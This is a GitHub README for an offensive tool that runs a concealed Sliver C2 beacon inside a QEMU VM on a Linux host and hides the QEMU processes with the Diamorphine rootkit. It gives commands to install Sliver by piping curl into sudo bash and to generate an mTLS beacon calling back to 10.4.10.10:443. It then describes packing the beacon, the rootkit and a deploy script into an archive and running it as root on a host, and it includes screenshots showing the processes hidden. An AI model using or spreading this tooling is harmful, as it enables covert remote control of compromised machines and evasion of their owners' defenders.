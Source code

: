 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

![Image 0](https://i.imgur.com/wGIcRK8.jpeg)

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;


VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)


---

Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver


---

TODO:
- Use QEMU static binary https://github.com/ziglang/qemu-static instead of downloading it via apt;
- Use **macvtap** / l2tpv3 / af_xdp for networking.

NOTES

```bash
ip link add link enp0s3 name spf0 type macvtap mode bridge
ip link set spf0 up
./sq -kernel /boot/vmlinuz-$(uname -r) -initrd ./initramfs.linux_amd64.cpio -net nic,model=virtio,macaddr=$(cat /sys/class/net/spf0/address) -net tap,fd=3 3<>/dev/tap$(cat /sys/class/net/spf0/ifindex) -nographic -append "console=ttyS0"
```
